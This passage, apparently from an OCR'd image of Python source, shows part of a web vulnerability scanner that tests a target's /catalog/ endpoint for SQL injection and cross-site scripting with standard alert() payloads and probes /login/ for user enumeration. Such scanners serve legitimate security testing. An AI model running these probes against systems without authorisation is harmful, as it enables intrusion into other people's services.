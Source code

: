 ```python
                if "error" in r.text.lower() or elapsed > 4:
                    print(Fore.GREEN + f"[+] SQL Injection found with: {payload}")
                    self.vulnerabilities.append({
                        "type": "SQL Injection",
                        "endpoint": "/catalog/",
                        "payload": payload,
                        "severity": "CRITICAL"
                    })
                    break
            except Exception as e:
                print(Fore.RED + f"[-] Error: {e}")
                
    def test_xss(self):
        """Test for XSS vulnerabilities"""
        print(Fore.YELLOW + "[*] Testing Cross-Site Scripting...")
        
        payloads = [
            "<script>alert('XSS')</script>",
            "<img src=x onerror=alert('XSS')>",
            "javascript:alert('XSS')",
            "<svg onload=alert('XSS')>"
        ]
        
        for payload in payloads:
            try:
                r = self.session.get(f"{self.target}/catalog/?q={payload}")
                
                if payload in r.text:
                    print(Fore.GREEN + f"[+] XSS found with: {payload}")
                    self.vulnerabilities.append({
                        "type": "Cross-Site Scripting",
                        "endpoint": "/catalog/",
                        "payload": payload,
                        "severity": "HIGH"
                    })
                    break
            except Exception as e:
                print(Fore.RED + f"[-] Error: {e}")
                
    def test_authentication(self):
        """Test authentication vulnerabilities"""
        print(Fore.YELLOW + "[*] Testing Authentication Weaknesses...")
        
        # Test user enumeration
        users = ['admin', 'nonexistent_user_12345']
        responses = {}
        
        for user in users:
            try:
                r = self.session.post(f"{self.target}/login/",
                                     data={'username': user, 'password': 'wrong'})
                responses[user] = r.text
            except Exception as e:
                print(Fore.RED + f"[-] Error: {e}")
                
        if len(set(responses.values())) > 1:
            print(Fore.GREEN + "[+] User enumeration vulnerability found")
            self.vulnerabilities.append({
                "type": "User Enumeration",
                "endpoint": "/login/",
                "description": "Different error messages for valid/invalid users",
                "severity": "MEDIUM"
            })
```